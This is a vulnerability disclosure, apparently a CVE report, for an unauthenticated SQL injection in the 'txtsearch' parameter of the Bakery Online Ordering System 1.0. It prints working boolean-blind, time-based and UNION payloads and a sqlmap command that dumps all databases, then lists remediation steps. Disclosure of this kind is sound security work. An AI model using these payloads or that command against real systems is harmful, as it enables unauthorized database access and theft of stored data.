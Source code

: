 # Itsourcecode Bakery Online Ordering System Using PHP and MySQL Database 1.0 index.php SQL injection
# NAME OF AFFECTED PRODUCT(S)
+ Bakery Online Ordering System Using PHP and MySQL Database
## Vendor Homepage
+ https://itsourcecode.com/free-projects/php-project/bakery-online-ordering-system/
# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ N3xu5Cr4ck37
## Vulnerable File
+ index.php
## VERSION(S)
+ V1.0
## Software Link
+ https://itsourcecode.com/wp-content/uploads/2017/04/katerina.zip
# PROBLEM TYPE
## Vulnerability Type
+ SQL injection
## Root Cause
+ A SQL injection vulnerability was found in the 'index.php' file of the 'Bakery Online Ordering System Using PHP and MySQL Database' project. The reason for this issue is that attackers inject malicious code from the parameter "txtsearch" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.
## Impact
+ Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.
# DESCRIPTION
+ During the security review of "Bakery Online Ordering System Using PHP and MySQL Database", N3xu5Cr4ck37 discovered a critical SQL injection vulnerability in the "index. php" file. This vulnerability stems from insufficient user input validation of the 'txtsearch' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.
# No login or authorization is required to exploit this vulnerability
# Vulnerability details and POC
## Vulnerability type: 
+ boolean-based blind
+ time-based blind
+ UNION query
## Vulnerability location:
+ 'txtsearch' parameter 
## Payload: 
```sql
    txtsearch=11' AND 7669=7669-- Epsu&btnsearch=

    txtsearch=11' AND (SELECT 2716 FROM (SELECT(SLEEP(5)))MTlH)-- OUPy&btnsearch=

    txtsearch=11' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71787a7071,0x794a716e6b4d6854754c5167567a4753497a6f514255564c5873616d53756e616b6152656d545a76,0x716b707a71),NULL,NULL,NULL,NULL-- -&btnsearch=
``` 
```makefile
    Parameter: txtsearch (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: txtsearch=11' AND 7669=7669-- Epsu&btnsearch=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: txtsearch=11' AND (SELECT 2716 FROM (SELECT(SLEEP(5)))MTlH)-- OUPy&btnsearch=

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: txtsearch=11' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71787a7071,0x794a716e6b4d6854754c5167567a4753497a6f514255564c5873616d53756e616b6152656d545a76,0x716b707a71),NULL,NULL,NULL,NULL-- -&btnsearch=
```
+ ![1](https://github.com/L1OudFd8cl09/CVE/assets/171104034/86971179-3edb-4f95-91a9-8cb29fa7acbb)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```bash
    python sqlmap.py -u "http://localhost:8101/index.php?page=2" --data="txtsearch=11&btnsearch=" --method=POST --dbms=mysql --level=5 --risk=3 --batch --dbs --dump
```
+ ![2](https://github.com/L1OudFd8cl09/CVE/assets/171104034/02aa1ab6-88c8-45a7-b394-9f53b8ece841)

+ ![3](https://github.com/L1OudFd8cl09/CVE/assets/171104034/8d1da16b-bbfe-4e77-8b33-ca55af411c7e)

+ ![4](https://github.com/L1OudFd8cl09/CVE/assets/171104034/b3bdcdbe-49e2-45ff-815a-7723e996fce4)

+ ![5](https://github.com/L1OudFd8cl09/CVE/assets/171104034/d1a5bd07-58b5-459f-9660-7cc3ffb3e5b4)

# Suggested repair
1. **Use prepared statements and parameter binding:**
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**
Strictly validate and filter user input data to ensure it conforms to the expected format. 

3. **Minimize database user permissions:**
Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**
Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
